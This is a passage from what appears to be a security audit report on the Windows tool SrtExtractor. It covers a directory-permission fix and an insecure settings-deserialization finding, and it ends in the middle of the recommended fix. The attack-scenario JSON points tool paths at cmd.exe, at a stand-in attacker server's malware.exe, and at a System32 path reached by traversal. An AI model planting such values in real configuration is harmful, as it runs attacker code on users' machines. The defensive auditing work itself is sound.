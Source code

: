 ```csharp
    
    // Add only current user
    var currentUser = WindowsIdentity.GetCurrent();
    security.AddAccessRule(new FileSystemAccessRule(
        currentUser.User!,
        FileSystemRights.FullControl,
        InheritanceFlags.ContainerInherit | InheritanceFlags.ObjectInherit,
        PropagationFlags.None,
        AccessControlType.Allow));
    
    directoryInfo.SetAccessControl(security);
}
```

---

### 4. Insecure Settings Deserialization

**Severity:** HIGH 🟠  
**CWE:** CWE-502 (Deserialization of Untrusted Data)  
**CVSS Score:** 7.3 (High)

**Location:**
- `SettingsService.cs` lines 43-44

**Vulnerability Description:**

Settings are deserialized from JSON without validation. An attacker who can modify the settings file could inject malicious paths or configurations.

**Vulnerable Code:**
```csharp
// SettingsService.cs:43-44
var json = await File.ReadAllTextAsync(_settingsPath);
var settings = JsonSerializer.Deserialize<AppSettings>(json, _jsonOptions);  // ❌ No validation
```

**Attack Scenario:**

Attacker modifies `%APPDATA%\SrtExtractor\settings.json`:
```json
{
  "mkvMergePath": "C:\\Windows\\System32\\cmd.exe",
  "subtitleEditPath": "\\\\attacker-server\\malware.exe",
  "tesseractDataPath": "..\\..\\..\\Windows\\System32"
}
```

**Recommended Fix:**

```csharp
public async Task<AppSettings> LoadSettingsAsync()
{
    try
    {
        if (!File.Exists(_settingsPath))
        {
            _loggingService.LogInfo("Settings file not found, using defaults");
            return AppSettings.Default;
        }

        var json = await File.ReadAllTextAsync(_settingsPath);
        var settings = JsonSerializer.Deserialize<AppSettings>(json, _jsonOptions);
        
        if (settings == null)
        {
            _loggingService.LogWarning("Failed to deserialize settings, using defaults");
            return AppSettings.Default;
```